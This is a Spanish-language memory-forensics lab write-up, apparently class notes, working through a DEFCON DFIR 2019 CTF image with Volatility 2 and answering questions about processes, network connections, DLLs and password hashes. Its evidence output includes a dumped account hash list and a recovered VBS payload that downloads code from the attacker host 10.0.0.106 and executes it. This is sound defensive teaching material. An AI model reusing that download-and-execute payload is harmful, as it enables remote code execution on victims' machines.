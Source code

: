 Parte de [[Analisis de RAM]]
## Objetivo

> El objetivo de esta práctica es que el alumno se familiarice con el uso de herramientas de análisis forense y sea capaz de encontrar información relevante a partir de imágenes de memoria. A mayores, el alumno también se familiarizará con los retos CTF y con los writeups que explican cómo llegar a la solución

## Corrección de la práctica y forma de entrega

>Esta práctica no se entrega ni cuenta para la nota final, pero es conveniente realizarla

## Materiales

>Para realizar los siguientes ejercicios necesitará Volatility 2.
>
>El archivo de imagen de memoria al que se refiere el enunciado corresponde al concurso CTF no oficial del DEFCON DFIR 2019. Es el archivo llamado “Triage-Memory.mem” que está disponible en la carpeta S:\ciberCEP\AnaliseFI\Ejercicio3a y en la carpeta de Google Drive:
>
>https://drive.google.com/drive/folders/1JwK8duNnrh12fo9J_02oQCz8HlILKAdW

## Instrucciones

>Instalar Volatility 2 en una máquina virtual Kali limpia. De esta forma se podrán usar comandos como file, strings, grep, sort o awk que ayudarán a trabajar con las salidas generadas por Volatility. Se recomienda de cara a las siguientes prácticas con Volatility tener dos máquinas distintas, una con Volatility 2 y otra con Volatility 3.
>
>Se recomienda dejar al menos 4 GB de RAM y 50 GB de disco e instalar Volatility y siguiendo las instrucciones de los apuntes.

## Ejercicios

>Responder a las siguientes preguntas:

> 1. ¿Cuál es el hash SHA-1 del archivo memory-triage.mem?

c95e8cc8c946f95a109ea8e47a6800de10a27abd

``` bash
shasum -a 1 ~/afi/Triage-Memory.mem

c95e8cc8c946f95a109ea8e47a6800de10a27abd  /home/kali/afi/Triage-Memory.mem
```

> 2. ¿Cuál es el perfil más apropiado para la máquina?

Win7SP1x64

``` bash
python2 vol.py -f ~/afi/Triage-Memory.mem imageinfo

Volatility Foundation Volatility Framework 2.6.1
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win7SP1x64, Win7SP0x64, Win2008R2SP0x64, Win2008R2SP1x64_24000, Win2008R2SP1x64_23418, Win2008R2SP1x64, Win7SP1x64_24000, Win7SP1x64_23418
                     AS Layer1 : WindowsAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (/home/kali/afi/Triage-Memory.mem)
                      PAE type : No PAE
                           DTB : 0x187000L
                          KDBG : 0xf800029f80a0L
          Number of Processors : 2
     Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0xfffff800029f9d00L
                KPCR for CPU 1 : 0xfffff880009ee000L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2019-03-22 05:46:00 UTC+0000
     Image local date and time : 2019-03-22 01:46:00 -0400
```

> 3. ¿Cuál es el PID del proceso notepad.exe?

3032

``` bash
python2 vol.py -f ~/afi/Triage-Memory.mem --profile=Win7SP1x64 pslist | grep notepad

Volatility Foundation Volatility Framework 2.6.1
0xfffffa80054f9060 notepad.exe            3032   1432      1       60      1      0 2019-03-22 05:32:22 UTC+0000  
```

> 4. Nombre del proceso hijo de wscript.exe.

UWkpjFjDzM.exe

``` bash
python2 vol.py -f ~/afi/Triage-Memory.mem --profile=Win7SP1x64 pstree | grep -A 3 wscript

Volatility Foundation Volatility Framework 2.6.1
.. 0xfffffa8005a80060:wscript.exe                    5116   3952      8    312 2019-03-22 05:35:32 UTC+0000
... 0xfffffa8005a1d9e0:UWkpjFjDzM.exe                3496   5116      5    109 2019-03-22 05:35:33 UTC+0000
.... 0xfffffa8005bb0060:cmd.exe                      4660   3496      1     33 2019-03-22 05:35:36 UTC+0000
. 0xfffffa80054f9060:notepad.exe                     3032   1432      1     60 2019-03-22 05:32:22 UTC+0000
```

Creemos que este proceso esta infectando, dumpealo, crea un hash y compruebalo en VirusTotal.

``` bash
python2 vol.py -f ~/afi/Triage-Memory.mem --profile=Win7SP1x64 memdump -p 3496 -D ~/afi/

Volatility Foundation Volatility Framework 2.6.1
************************************************************************
Writing UWkpjFjDzM.exe [  3496] to 3496.dmp


shasum -a 1 ~/afi/3496.dmp
0ae0bf49bb714df8399f46dee164bd3d59d04b40  /home/kali/afi/3496.dmp
```

![[Pasted image 20250217211326.png]]

> 5. ¿Cuál era la dirección IP de la máquina en el momento en el que se hizo la imagen de memoria?

10.0.0.101

``` bash
python2 vol.py -f ~/afi/Triage-Memory.mem --profile=Win7SP1x64 netscan

Volatility Foundation Volatility Framework 2.6.1
Offset(P)          Proto    Local Address                  Foreign Address      State            Pid      Owner          Created
0x13e057300        UDPv4    10.0.0.101:55736               *:*                                   2888     svchost.exe    2019-03-22 05:32:20 UTC+0000
0x13e05b4f0        UDPv6    ::1:55735                      *:*                                   2888     svchost.exe    2019-03-22 05:32:20 UTC+0000
0x13e05b790        UDPv6    fe80::7475:ef30:be18:7807:55734 *:*                                   2888     svchost.exe    2019-03-22 05:32:20 UTC+0000
0x13e05d4b0        UDPv6    fe80::7475:ef30:be18:7807:1900 *:*                                   2888 
```

> 6. Basándose en la respuesta relacionada con el PID infectado, ¿cuál es la IP del atacante?

10.0.0.106

``` bash
python2 vol.py -f ~/afi/Triage-Memory.mem --profile=Win7SP1x64 netscan | grep UWkpjFjDzM.exe

Volatility Foundation Volatility Framework 2.6.1
0x13e397190        TCPv4    10.0.0.101:49217               10.0.0.106:4444      ESTABLISHED      3496     UWkpjFjDzM.exe 
```

> 7. ¿Cuál es el nombre del proceso relacionado con la librería VCRUNTIME140.dll?

Office

``` bash
python2 vol.py -f ~/afi/Triage-Memory.mem --profile=Win7SP1x64 dlllist > ~/afi/dllist.txt

Volatility Foundation Volatility Framework 2.6.1


cat ~/afi/dllist.txt | grep VCRUNTIME140.dll

0x000007fefa5c0000            0x16000             0xffff 2019-03-22 05:32:05 UTC+0000   C:\Program Files\Common Files\Microsoft Shared\ClickToRun\VCRUNTIME140.dll
0x00000000745f0000            0x15000             0xffff 2019-03-22 05:33:49 UTC+0000   C:\Program Files (x86)\Microsoft Office\root\Office16\VCRUNTIME140.dll
0x00000000745f0000            0x15000             0xffff 2019-03-22 05:34:37 UTC+0000   C:\Program Files (x86)\Microsoft Office\root\Office16\VCRUNTIME140.dll
0x00000000745f0000            0x15000                0x3 2019-03-22 05:34:49 UTC+0000   C:\Program Files (x86)\Microsoft Office\root\Office16\VCRUNTIME140.dll
0x00000000745f0000            0x15000             0xffff 2019-03-22 05:35:09 UTC+0000   C:\Program Files (x86)\Microsoft Office\root\Office16\VCRUNTIME140.dll
```

> 8. ¿Cuál es el valor del hash MD5 del potencial malware en el sistema?

6654c0ab83bb8fa9cb64c9078c9c8468

``` bash
md5sum ~/afi/3496.dmp

6654c0ab83bb8fa9cb64c9078c9c8468  /home/kali/afi/3496.dmp
```

> 9. ¿Cuál es el hash LM de la cuenta de Bob?

aad3b435b51404eeaad3b435b51404ee (El otro es el NTLM)

``` bash
python2 vol.py -f ~/afi/Triage-Memory.mem --profile=Win7SP1x64 hashdump

Volatility Foundation Volatility Framework 2.6.1
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Bob:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

> 10. Hubo un script VBS corriendo en la máquina. ¿Cuál es el nombre del script (sin extensión)?

Modo 1 con strings (no recomendable):

vhjReUDEuumrX

```bash
strings -a -td ~/afi/Triage-Memory.mem > ~/afi/string_raw.txt

strings -a -td -el ~/afi/Triage-Memory.mem >> ~/afi/string_raw.txt

python2 vol.py -f ~/afi/Triage-Memory.mem --profile=Win7SP1x64 strings -s ~/afi/string_raw.txt > ~/afi/proc_strings.txt

cat ~/afi/proc_strings.txt | grep -A 2 ".vbs"

890276594 [3952:031c5af2] {.save|%TEMP%\vhjReUDEuumrX.vbs|Set x=CreateObject("Microsoft.XMLHTTP")
890799432 [3952:02182548] wscript.exe //B //NOLOGO %TEMP%\vhjReUDEuumrX.vbs
895821848 [3952:031aa818] /?search=%00{.save%7C%25TEMP%25%5CvhjReUDEuumrX.vbs%7CSet%20x=CreateObject(%22Microsoft.XMLHTTP%22)%0D%0AOn%20Error%20Resume%20Next%0D%0Ax.Open%20%22GET%22,%22http://10.0.0.106:8080/6KqFks7lU7q0%22,False%0D%0AIf%20Err.Number%20%3C%3E%200%20Then%0D%0Awsh.exit%0D%0AEnd%20If%0D%0Ax.Send%0D%0AExecute%20x.responseText.}
```

Modo 2 con cmdline y sabiendo que el proceso wscript.exe es el que ejecuta los virtual basic scripts:

``` bash
python2 vol.py -f ~/afi/Triage-Memory.mem --profile=Win7SP1x64 cmdline -p 5116
Volatility Foundation Volatility Framework 2.6.1

************************************************************************
wscript.exe pid:   5116
Command line : "C:\Windows\System32\wscript.exe" //B //NOLOGO %TEMP%\vhjReUDEuumrX.vbs
```

> 11. ¿Cuál es el nombre corto del archivo en el registro de la MFT 59045?

> 12. Este equipo ha sido comprometido y tiene una sesión de meterpreter. ¿Qué PID ha sido infectado?